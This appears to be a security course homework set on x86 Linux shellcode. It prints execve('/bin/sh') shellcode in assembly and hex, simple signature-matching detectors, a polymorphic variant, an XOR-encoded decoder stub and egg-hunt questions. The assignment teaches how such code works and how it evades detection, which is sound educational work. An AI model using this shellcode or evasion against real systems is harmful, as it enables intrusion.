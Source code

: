 Instructions
============

-   You must submit your homework using this Latex template.

-   This homework is graded out of 130 points. Point values are
    associated to each question.

Questions
=========

1.  Consider the following shell code as an improvement over previously
    described jmp-callback shell code

        SECTION .text
           global _start

        _start:

           xor eax,eax

           push eax ;\0
           push 0x68 ;h
           push 0x73 ;s
           push 0x2f ;/
           push 0x6e ;n
           push 0x69 ;i
           push 0x62 ;b
           push 0x2f ;/

           mov esi,esp

           xor edx,edx
           push edx
           push esi

           mov ecx,esp
           mov ebx,esi
           mov al,0xb
           int 0x80

    1.  (5 points) This shell code fails to decrease the total number of
        bytes. Explain why? (You can compile and test against a
        jmp-callback variant)

    2.  (5 points) This shell code *also* fails to launch a shell.
        Explain why?

    3.  (5 points) Explain how to fix this shell code’s push’es such
        that it will actually launch a shell.

    4.  (5 points) When fixed, how many bytes is the shell code reduced
        by as compared to the jmp-callback shell code?

2.  Consider the following shell code

        SECTION .text
                global _start
        _start:
                xor ecx,ecx
                mul ecx ;MARK 1

                push eax
                push 0x68732f6e
                push 0x69622f2f

                mov ebx,esp ;MARK 2
                mov al,0xb
                int 0x80 

    1.  (5 points) At MARK 1, explain why `mul ecx` will zero out the
        register `eax` and `edx`.

    2.  (5 points) At MARK 2, how come we are not creating an argv array
        for execve? What areguments are we passing instead?

    3.  (5 points) How many bytes is this shell code?

3.  Consider the following shell code.

        SECTION .text
                global _start:

        _start:
                cdq ; or cltrd
                push 0xb
                pop eax
                pusha
                pop ecx
                int 0x80

    1.  (5 points) Provide an english-language description of the
        process of this shell code

    2.  (5 points) Will this shell code work consistantly?

    3.  (5 points) How would you use this shell code to launch a shell?

    4.  (5 points) How many bytes is this shell code?

4.  (10 points) Go to the shell code repository on shell-storm

    <http://shell-storm.org/shellcode/>

    Choose a shell code from the Intel x86 header, compile and run that
    shell code, and describe it’s properties and something interesting
    you learned from it. Be sure to include the code.

5.  Consider the simple signature matching instrusion detection scheme:

        int sig_check(char * p){
          for(;*p;p++)
            if (strncmp(p,"sh",2) == 0){
              return 1;
          return 0;
        }

    1.  (5 points) Will the shell code below be detected by the
        signature scheme, yes or no and **Explain**.

            8048060: 31 c9            xor ecx,ecx
            8048062: f7 e1            mul ecx
            8048064: 50               push eax
            8048065: 68 6e 2f 73 68   push 0x68732f6e
            804806a: 68 2f 2f 62 69   push 0x69622f2f
            804806f: 89 e3            mov ebx,esp
            8048071: b0 0b            mov al,0xb
            8048073: cd 80            int 0x80

    2.  (5 points) Will the shell code below be detected by the
        signature scheme, yes or no and **Explain**.

            8048060: 31 c9             xor ecx,ecx
            8048062: f7 e1             mul ecx
            8048064: 6a 68             push 0x68
            8048066: 68 6e 2f 2f 73    push 0x732f2f6e
            804806b: 68 2f 2f 62 69    push 0x69622f2f
            8048070: 89 e3             mov ebx,esp
            8048072: b0 0b             mov al,0xb
            8048074: cd 80             int 0x80

6.  Consider this signature matching scheme below:

        int sig_check(char *str, char * sig0, char *sig1){
          char *p;
          for(p=str;*p;p++){
            if ( strncmp(p,sig0,strlen(sig0)) == 0 )
              if (strncmp(p+strlen(sig0),sig1,strlen(sig1)) == 0)
                return 1;
            return 0;
          }
        }

    1.  (5 points) Provide a signatures (i.e., arugments to
        sig**<sub>check</sub> above) that will match both shell codes
        (from the previous questions) use of the excve system call.

    2.  (5 points) Consider the following change to the shell code
        below, does your previous signature still work? If so, explain
        why, if not, explain why not.

            8048060: 31 c9             xor ecx,ecx
            8048062: f7 e1             mul ecx
            8048064: 6a 68             push 0x68
            8048066: 68 6e 2f 2f 73    push 0x732f2f6e
            804806b: 68 2f 2f 62 69    push 0x69622f2f
            8048070: b1 0b             mov cl,0xb
            8048072: 89 e3             mov ebx,esp
            8048074: 40                inc eax
            8048075: e2 fd             loop 8048074 <_start+0x14>
            8048077: cd 80             int 0x80

7.  (5 points) Does the shell code below match either (or both) of the
    signature schemes from the previous questions?

        8048060: 68 80 90 90 90  push 0x90909080
        8048065: 68 e3 b0 0b cd  push 0xcd0bb0e3
        804806a: 68 2f 62 69 89  push 0x8969622f
        804806f: 68 73 68 68 2f  push 0x2f686873
        8048074: 68 50 68 6e 2f  push 0x2f6e6850
        8048079: 68 31 c9 f7 e1  push 0xe1f7c931
        804807e: ff d4           call esp

8.  (5 points) What is polymorphic shell code? How does it relate to the
    shortcomins of the signature matching scheme from before?

9.  (5 points) What is decode shell code? Would decoder shell code be
    immune from signature matching schemes?

10. Consider the following decode based shell code

        8048060: 68 6f 2e 3d 4e     push 0x4e3d2e6f
        8048065: 68 0c 0e a6 13     push 0x13a60e0c
        804806a: 68 c0 dc c4 57     push 0x57c4dcc0
        804806f: 68 9c d6 c5 f1     push 0xf1c5d69c
        8048074: 68 be d6 c3 f1     push 0xf1c3d6be
        8048079: 68 de 77 5a 3f     push 0x3f5a77de
        804807e: 31 c9              xor ecx,ecx
        8048080: 8b 04 0c           mov eax,DWORD PTR [esp+ecx*1]
        8048083: 35 ef be ad de     xor eax,0xdeadbeef
        8048088: 89 04 0c           mov DWORD PTR [esp+ecx*1],eax
        804808b: 80 c1 04           add cl,0x4
        804808e: 80 f9 14           cmp cl,0x14
        8048091: 7e ed              jle 8048080 <_start+0x20>
        8048093: ff e4              jmp esp

    1.  (5 points) What is the decode key? Explain how you know this.

    2.  (5 points) Why is the comparison (`cmp`) comapring to 0x14 for
        loop exit?

    3.  (5 points) Explain the last instruction’s relevance `jmp esp`.

11. (5 points) In egg-hunt shell code, why should the egg appear twice?

12. (5 points) Why do we use `access()` system call in egghunt shell
    code?

13. (5 points) In the example below, why does the shell code being
    hunted for get loaded into memory?

        ./dummy_exploit $(printf $(./hexify.sh egg_hunt)) $(printf $(./hexify.sh huntable_shell))


